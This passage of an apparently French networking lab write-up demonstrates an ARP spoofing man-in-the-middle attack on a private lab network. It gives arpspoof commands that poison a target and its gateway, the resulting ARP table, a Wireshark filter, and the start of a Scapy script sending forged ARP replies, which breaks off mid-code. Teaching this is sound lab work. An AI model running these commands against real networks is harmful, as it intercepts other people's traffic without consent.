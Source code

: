 ```bash
net.ipv4.ip_forward=1
```

Appliquer la configuration :

```bash
sudo sysctl --system
```

### Lancer ARP Spoofing

```bash
sudo arpspoof -i eth0 -t 10.2.1.3 10.2.1.254 & sudo arpspoof -i eth0 -t 10.2.1.254 10.2.1.3
```

### Résultat sur node1

```bash
node1.tp2> show arp
08:00:27:80:ad:91  10.2.1.4 expires in 93 seconds
08:00:27:80:ad:91  10.2.1.254 expires in 120 seconds
```

### Test de connectivité

```bash
ping 1.1.1.1
```

## Capture Wireshark

Utilisez Wireshark pour capturer les paquets et sauvegardez la capture sous `arp_mitm.pcap`. Appliquez un filtre pour ARP et ICMP :

```plaintext
icmp || arp


``````


# Scapy 

# Script Python Simplifié : ARP Spoofing


---

## **Script Python**

```python
from scapy.all import ARP, send
import time


target_ip = "10.2.1.3"      
gateway_ip = "10.2.1.254"    


def arp_spoof():
    print(f"[+] Lancement de l'ARP spoofing : {target_ip} ↔ {gateway_ip}")
    try:
        while True:
            
            send(ARP(op=2, pdst=target_ip, psrc=gateway_ip), verbose=False)
           
```